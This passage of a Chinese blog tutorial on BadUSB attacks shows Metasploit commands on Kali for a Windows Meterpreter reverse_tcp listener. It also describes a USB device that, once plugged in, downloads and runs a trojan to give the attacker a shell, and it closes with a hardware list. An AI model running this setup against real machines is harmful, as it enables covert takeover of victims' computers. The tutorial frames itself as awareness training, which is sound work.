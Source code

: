 2、写入成功提示Thank you

 ![img](https://i-blog.csdnimg.cn/blog_migrate/e8792604f59d2a34ade0243bf8ab681f.png)

 3、准备MSF控制端

打开Kali系统—打开终端

打开msf设置payload，加载攻击模块设置本地IP和监听端口

```undefined
msfconsole
```

![img](https://i-blog.csdnimg.cn/blog_migrate/895c13765196ba080b3419d8b51fde60.png)

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 192.168.245.140

set LPORT 4444

![img](https://i-blog.csdnimg.cn/blog_migrate/f3ec888bad54d9ca5bab83799fa1fd52.png)

show options （查看IP端口设置情况）

run （开启监听）

![img](https://i-blog.csdnimg.cn/blog_migrate/95733ba055744fa571027b2a36e05d82.png)

4、Budusb插入目标机自动下载并且运行木马-反弹shell-操控目标机 

[视频演示：1655646347015765-CSDN直播](https://live.csdn.net/v/217576)



本教材仅用于信息安全防范，提高信息安全意识，请勿用于其他用途，请且行且珍惜。 





文章目录设备软件编写代码（重点） 设备 

1、 能够*制作**bad**usb*的几种常见载体有：Arduino Leonardo、Phison、Teensy、Attiny85、PS2303（芯片）、RUBBER DUCKY等。从专业程度和易用性来讲，RUBBER DUCKY最优（Hak5官方提供了许多现成的按键脚本和payload），但价格也最贵。 

2、 一台计算机 软件 下载Arduino开发者工具——Arduino IDE (用来向leonardo烧录程序的软件) 这里是Arduino IDE下载地址：http

